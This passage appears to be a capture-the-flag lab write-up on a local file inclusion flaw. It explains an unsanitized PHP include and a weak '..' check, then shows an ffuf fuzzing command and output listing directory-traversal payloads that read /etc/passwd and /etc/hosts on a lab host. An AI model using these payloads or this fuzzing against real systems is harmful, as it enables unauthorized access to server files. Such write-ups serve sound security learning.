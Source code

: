 ```html
          </div>
    </footer>
  </div>

  <script src="js/jquery-3.3.1.min.js"></script>
  <script src="js/jquery-migrate-3.0.1.min.js"></script>
  <script src="js/jquery-ui.js"></script>
  <script src="js/popper.min.js"></script>
  <script src="js/bootstrap.min.js"></script>
  <script src="js/owl.carousel.min.js"></script>
  <script src="js/jquery.stellar.min.js"></script>
  <script src="js/jquery.countdown.min.js"></script>
  <script src="js/jquery.magnific-popup.min.js"></script>
  <script src="js/bootstrap-datepicker.min.js"></script>
  <script src="js/aos.js"></script>

  <script src="js/main.js"></script>
    
  </body>
</html>

```

We can analyze the behavior, here are some key features:

```ad-important

1. **Unsanitized User Input**:  
    The `page` parameter in `index.php?page=` is used directly in `include $page . ".php";` without proper validation, allowing attackers to inject PHP wrappers.
    
2. **Directory Traversal Check Bypass**:  
    The code checks for `..` using `strpos`, but this doesn't block PHP filter wrappers like `php://filter`.
3. **Admin Panel Access**:  
    The commented-out line `ilf_admin/index.php` suggests an admin section. Attackers can target this path to read admin scripts for credentials or vulnerabilities.
```

![](cybersecurity/images/Pasted%2520image%252020250218224538.png)

So, we found the admin panel, we can try automating the scan to check for LFI vulnerabilities, let's do it:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.248.62:52545/ilf_admin/index.php?log=FUZZ' -ic -c -t 200 -fs 2046
```

We get the following output:

```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 157ms]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 321ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2291, Words: 155, Lines: 110, Duration: 480ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 621ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 187ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 243ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 283ms]
```